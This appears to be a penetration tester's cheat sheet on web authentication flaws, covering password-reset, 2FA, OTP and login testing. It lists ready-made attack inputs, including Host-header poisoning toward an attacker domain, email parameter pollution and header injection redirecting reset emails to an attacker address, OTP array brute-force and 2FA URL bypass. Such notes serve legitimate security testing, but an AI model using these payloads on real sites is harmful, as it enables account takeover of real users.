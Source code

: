 # Basic
- **Cookie** vs **Session**
  - Cookie’s data is saved in user’s browser, but Session’s data is saved in the server. _(Session’s id is saved in user’s browser)_
  - Mostly Cookies are handled by web applications, Sessions are handled by web servers.
  - Sessions are destroyed (not in server side) by closing browsers, but Cookies not.
  - Users can alter Cookie’s data, but Only Session’s id, because the data is saved server-side.
- In Authentication by **Cookie**,
  - Information can be saved in _only Cookie_, _only Session_, _Both Cookie and Session_.
  - Need to make extra effort to mitigate CSRF attacks
  - Authentication state is saved in the Session. (checked in every request)
  - Re-Authentication data is saved in the Cookie. (checked only if the Session is not present)
- In Authentication by **Token**,
  - Information can be saved in _LocalStorage_ or _SessionStorage_. (No information is saved in server-side)
  - CORS and CSRF are not security issue.
 
# Detection
### Improper Token Generation
- Check sufficient entropy/randomness.
- Try to guess or brute force authentication token.

### Insecure Email Verification
- In account creation or recovery process, email verification is often used to confirm a user's email address.

### Weak Password Reset Mechanisms (Forgot Password)
- Try to predict or guess reset link.
- Check if the reset password link doesn't expire after a reasonable time or can be reused. (low severity)
- In a scenario, the reset-password request is `POST /forgot-password?temp-forgot-password-token`, by removing `temp-forgot-password-token` from both URL and request body, we can change the username, and reset password of another user.

### Insecure Magic Links
- Also known as one-time login links or passwordless authentication links.
- Try to tamper the link's parameter for unauthorized access or other security breaches.

### Two-Factor Authentication (2FA) Flaws
- Check for flaw in the recovery or reset process for second-factor devices, such as SMS-based 2FA.
- An authentication flow is `/login`  →  `/login2` (2FA)  →  `/my-account?id=wiener`, we can manually change the URI when we are in `/login2` to `/my-account?id=carlos` to bypass 2FA.

### One-Time Password (OTP) Flaws
- Check for weak key generation, lack of proper entropy, or predictable OTP generation.
- Bypass rat-limit, by send the values as an array:
  ```bash
  POST /api/v1/otp/verify HTTP/1.1
  {"code": 334}  →  {"code": [0001,0002,0003,....,9999]}
  ```

### Weak Passwords
- Try to brute force or dictionary attack.
- Pay attention to different error that the web-app shows for incorrect username and incorrect password.

# Methodology
### Login
- Fuzz to discover hidden parameter to find Open Redirect or XSS.
- Response manipulation on legacy web-app, that may leads to a new page to more test (if there is JavaScript to handle authorization)
- Login with an email (`myemail@gmail.com`) address, then try to register by a ssame email with small change.
  ```bash
  my%00email@gmail.com
  my.email@gmail.com
  my.email+123@gmail.com
  ```
- Change the Email address, then use the old code to verify.
- Send HTTP request to the Login/Registration endpoint while authenticated and fuzz for hidden parameter.

### Registration
- Fuzz to discover hidden parameter to find Open Redirect or XSS.
- Register with special accounts:
  ```bash
  noreplay@github.com
  support@company.com
  ```
### Forgot password
- Fuzz to discover hidden parameter and try to manipulate.
- Change the `Host` header in the forgot password HTTP request or use double host.
  ```html
  Host: cvefix.ir
  Host: cvefix.ir/target.tld
  X-Forwarded-Host: cvefix.ir
  X-Host: cvefix.ir

  Host: target.tld
  Host: cvefix.ir
  ```
- Add `referrer` and `origini`, too.
- Collect the token for further analysis.
- Try Parameter Pollution, works here
  ```bash
  email=victim@gmail.com&email=attacker@gmail.com                  # &
  email=victim@gmail.com%20email=attacker@gmail.com                # %20
  email=victim@gmail.com|email=attacker@gmail.com                  # |
  email="victim@gmail.com%0a%0dcc:email=attacker@gmail.com         # %0a%0dcc:
  email="victim@gmail.com%0a%0dbcc:email=attacker@gmail.com        # %0a%0dbcc:
  email="victim@gmail.com",email="attacker@gmail.com"              # ,
  {"email":["victim@gmail.com","attacker@gmail.com"]}              # JSON
  ```
- Check if password reset link is not expire. (Low severity)

### Two-Factor authentication
- Response manipulation, e.g. change param value from `false` to `true`.
- Login with the credentials, send request to all features without performing 2FA.
  - Make request to an API which returns user's information
  - Make request to update user's information. (`PATCH`)

# Tip
### Login Bypass
- Check `*` for both username and password fields.

# Resource
- https://book.hacktricks.xyz/pentesting-web/login-bypass
- https://book.hacktricks.xyz/pentesting-web/captcha-bypass
- https://book.hacktricks.xyz/pentesting-web/account-takeover
- https://book.hacktricks.xyz/pentesting-web/2fa-bypass
